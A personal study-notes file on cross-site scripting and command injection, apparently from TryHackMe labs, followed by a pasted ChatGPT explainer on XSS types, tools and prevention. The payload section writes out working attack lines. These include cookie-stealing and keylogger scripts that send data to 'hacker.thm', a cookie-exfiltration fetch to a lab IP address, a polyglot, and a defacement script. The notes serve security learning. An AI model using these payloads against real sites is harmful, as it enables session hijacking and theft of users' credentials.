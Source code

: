 # Cross Site Scripting

## Description

## Techniques

## Types of XSS:
* Stored XSS
* Reflected XSS
* DOM-Based XSS

https://tryhackme.com/room/xss

Common XSS Payloads:

* Popup's (<script>alert(“Hello World”)</script>) - Creates a Hello World message popup on a users browser.
Writing HTML (document.write) - Override the website's HTML to add your own (essentially defacing the entire page).
* XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.
* Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner (more information on this is covered in the TryHackMe XSS room).

an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users

Proof Of Concept: <script>alert('XSS');</script>
Session Stealing: <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
Keylogger: <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
Business Logic: <script>user.changeEmail('attacker@hacker.thm');</script>

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

Stored XSS

the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page

DOM Based XSS: 

eval() = unsafe javascript method

Blind XSS

A popular tool for Blind XSS attacks is xsshunter

=========== SOC path ===========

https://feedly.com/i/welcome

https://thedfirreport.com/

https://app.any.run/tasks/a66178de-7596-4a05-945d-704dbf6b3b90/

punycode atacks

https://bazaar.abuse.ch/

https://malshare.com/

https://tdm.socprime.com/

Fuzzy hashing

https://ssdeep-project.github.io/ssdeep/index.html

https://attack.mitre.org/

pyramid of pain

XSS Polyglot

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

</textarea><script>alert('THM');</script>

</textarea><script>fetch('http://10.10.183.237:9001?cookie=' + btoa(document.cookie) );</script>

## Command Injection

Command injection is the abuse of an application's behaviour to execute commands on the operating system, using the same privileges that the application on a device is running with

https://github.com/payloadbox/command-injection-payload-list

. For example, the shell operators ;, & and && will combine two (or more) system commands and execute them both

window.location.hostname

(<script>alert("window.location.hostname")</script>)

<script>alert("window.location.hostname")</script>


<script>alert(document.cookie)</script>

<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>

## Resources

* https://netsec.expert/posts/xss-in-2021/
* https://chawdamrunal.medium.com/xss-cheat-sheet-e8b8261963c9
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* https://hackersonlineclub.com/cross-site-scripting-xss/
* https://0xhorizon.eu/cheat-sheet/xss/
* https://kipalog.com/posts/Some-XSS-payload



####### ChatGPT Stuff:

# Cross-Site Scripting (XSS)

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a type of security vulnerability that occurs when an attacker injects malicious code into a website. This code is executed in the context of the affected website and can potentially steal sensitive information from the users who visit the site. There are two main types of XSS: stored and reflected.

### Stored XSS

Stored XSS, also known as persistent XSS, occurs when the malicious code is stored on the target server and served to all users who visit the affected pages. The code is stored in a database or other persistent data storage mechanism and is served to users without any validation or sanitization.

### Reflected XSS

Reflected XSS, also known as non-persistent XSS, occurs when the malicious code is included in a request to the server and reflected back to the user without proper validation or sanitization. The code is not stored on the server, but rather is executed in the context of the affected website each time the page is loaded.

## XSS Tools

XSS Validator: An open-source tool that can be used to identify and validate XSS vulnerabilities.

OWASP ZAP (Zed Attack Proxy): An open-source web application security scanner that can be used to identify and mitigate XSS vulnerabilities.

Burp Suite: An integrated platform for performing security testing of web applications that can be used to identify and mitigate XSS vulnerabilities.

Arachni: An open-source web application security scanner that can be used to identify and mitigate XSS vulnerabilities.

W3af: An open-source web application security scanner that can be used to identify and mitigate XSS vulnerabilities.

XSS Auditor: An online tool built into the Google Chrome browser that can be used to detect and prevent XSS attacks.

Acunetix Online Vulnerability Scanner: An online tool that can be used to scan web applications for XSS vulnerabilities.

Qualys FreeScan: An online tool that can be used to scan web applications for XSS vulnerabilities.

Netsparker Web Application Security Scanner: An online tool that can be used to scan web applications for XSS vulnerabilities.

Veracode: An online platform that provides a range of security services, including web application security testing, that can be used to identify and mitigate XSS vulnerabilities.S

## Impact of XSS

The impact of XSS can be severe and can include:

- Stealing of sensitive information such as passwords, cookies, and other session-related data
- Redirection of the user to malicious sites
- Modification of the content of the affected website to spread malicious messages or ads
- Execution of arbitrary code on the client-side, potentially compromising the client machine

## Prevention of XSS

To prevent XSS, it is important to properly validate and sanitize user input. This can be done in a number of ways, including:

- Escaping special characters in user input, such as angle brackets (< and >) and ampersands (&)
- Stripping out all HTML and JavaScript from user input
- Implementing a Content Security Policy (CSP) that restricts the types of content that can be executed in the context of the website

It is also important to keep all software up-to-date as many XSS vulnerabilities are discovered and patched in this manner.

## Conclusion

Cross-Site Scripting (XSS) is a serious security vulnerability that can have severe consequences for both users and website owners. It is important to properly validate and sanitize user input and to keep software up-to-date in order to prevent XSS attacks.

## XSS

* [XSS] (https://labs.f-secure.com/blog/getting-real-with-xss/)

https://labs.withsecure.com/publications/getting-real-with-xss